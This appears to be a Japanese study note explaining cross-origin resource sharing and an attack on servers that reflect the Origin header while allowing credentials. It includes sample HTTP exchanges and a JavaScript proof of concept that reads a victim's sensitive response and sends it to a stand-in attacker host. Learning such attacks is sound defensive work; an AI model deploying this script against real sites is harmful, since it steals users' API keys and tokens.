 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃手法
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
